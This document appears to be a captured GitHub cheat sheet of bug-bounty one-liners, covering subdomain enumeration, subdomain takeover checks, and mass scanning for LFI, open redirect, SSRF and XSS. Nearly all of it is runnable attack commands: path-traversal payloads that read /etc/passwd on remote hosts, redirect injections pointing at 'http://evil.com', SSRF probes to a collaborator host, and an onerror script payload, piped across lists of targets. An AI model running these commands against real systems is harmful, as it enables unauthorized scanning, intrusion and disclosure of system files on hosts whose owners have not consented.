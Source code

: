 ```
```
**from HackerTarget**
```
curl -s "https://api.hackertarget.com/hostsearch/?q=target.com"
```
**from AlienVault**
```
curl -s "https://otx.alienvault.com/api/v1/indicators/domain/tesla.com/url_list?limit=100&page=1" | grep -o '"hostname": *"[^"]*' | sed 's/"hostname": "//' | sort -u
```
***SubDomain Bruteforcing - ffuf***
```
ffuf -u https://FUZZ.target.com -w dns.txt -v | grep "| URL |" | awk '{print $4}'
```
--------
## Subdomain Takeover:
```
cat subs.txt | xargs  -P 50 -I % bash -c "dig % | grep CNAME" | awk '{print $1}' | sed 's/.$//g' | httpx -silent -status-code -cdn -csp-probe -tls-probe
```
-------------------------------
## LFI:
```
cat hosts | gau |  gf lfi |  httpx  -paths lfi_wordlist.txt -threads 100 -random-agent -x GET,POST  -tech-detect -status-code  -follow-redirects -mc 200 -mr "root:[x*]:0:0:"
```
```
waybackurls target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```
```
cat targets.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host \033[0;31mVulnerable\n";done
```
----------------------
## Open Redirect:
```
waybackurls target.com | grep -a -i \=http | qsreplace 'http://evil.com' | while read host do;do curl -s -L $host -I| grep "http://evil.com" && echo -e "$host \033[0;31mVulnerable\n" ;done
```
```
cat subs.txt| waybackurls | gf redirect | qsreplace 'http://example.com' | httpx -fr -title -match-string 'Example Domain'
```
-----------------------
## SSRF:
```
cat wayback.txt | gf ssrf | sort -u |anew | httpx | qsreplace 'burpcollaborator_link' | xargs -I % -P 25 sh -c 'curl -ks "%" 2>&1 | grep "compute.internal" && echo "SSRF VULN! %"'
```
```
cat wayback.txt | grep "=" | qsreplace "burpcollaborator_link" >> ssrf.txt; ffuf -c -w ssrf.txt -u FUZZ
```
----------------
## XSS:
```
cat domains.txt | waybackurls | grep -Ev "\.(jpeg|jpg|png|ico)$" | uro | grep =  | qsreplace "<img src=x onerror=alert(1)>" | httpx -silent -nc -mc 200 -mr "<img src=x onerror=alert(1)>"
```
```
```